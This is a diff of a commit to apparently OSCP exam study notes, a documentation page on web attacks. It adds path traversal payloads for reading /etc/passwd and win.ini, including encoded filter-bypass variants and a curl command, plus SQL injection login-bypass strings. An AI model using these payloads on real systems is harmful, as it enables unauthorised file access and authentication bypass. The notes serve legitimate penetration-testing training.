

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/11_web_attacks.md, in a window 1280 px wide and 900 px high, scrolled down 198 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update path trav and fixes

````diff
--- a/docs/11_web_attacks.md
+++ b/docs/11_web_attacks.md
@@ -9,16 +9,27 @@
 
 ## Path Traversal
 
+!!! tip
+    🍪 Don't forget the `--path-as-is` curl param
+
 ```shell
-cat /etc/passwd # absolute
-cat ../../../../etc/passwd # relative
+# linux
+../etc/passwd
+# bypass naive filters
+....//....//etc/passwd
+# URL encoding
+/%2e%2e/%2e%2e/%2e%2e/etc/passwd
+# mixing forward and backward slashes
+..\/..\/..\/etc/passwd
+# escaped characters
+....\/....\/....\/etc/passwd
+# windows
+..\..\..\Windows\win.ini
+# UTF-8 encoding bypass
+..%c0%af..%c0%af..%c0%af/etc/passwd
 
-curl http://192.168.249.16/meteor/index.php?page=../../../../../../../../../etc/passwd
-# windows
-curl --path-as-is http://192.168.249.193:3000/public/plugins/mysql/../../../../../../../../Users/install.txt
-
-# URL Encoding
-curl http://192.168.249.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
+# curl without path normalization or encoding
+curl --path-as-is "http://<url>/index.php?page=../../../etc/passwd"
 ```
 
 ## File Inclusion Vulnerabilities
@@ -157,19 +168,24 @@ select * from offsec.dbo.users;
 
 ### Testing
 
+> <https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt>
+
 ```shell
 ' OR '1
 ' OR 1 -- -
 " OR "" = "
 " OR 1 = 1 -- -
+'OR "='
 '='
 'LIKE'
 '=0--+
+admin'-- -
+admin'--
 ```
 
 ### Union
 
-****Requirements**:
+**Requirements**:
 
 1. The injected **UNION** query has to include the same number of columns as the original query.
 2. The data types need to be compatible between each column.
````
Also changed, not shown: docs/10_info_gathering.md (+1 -1 lines), docs/16_linux_privesc.md (+2 -0 lines).
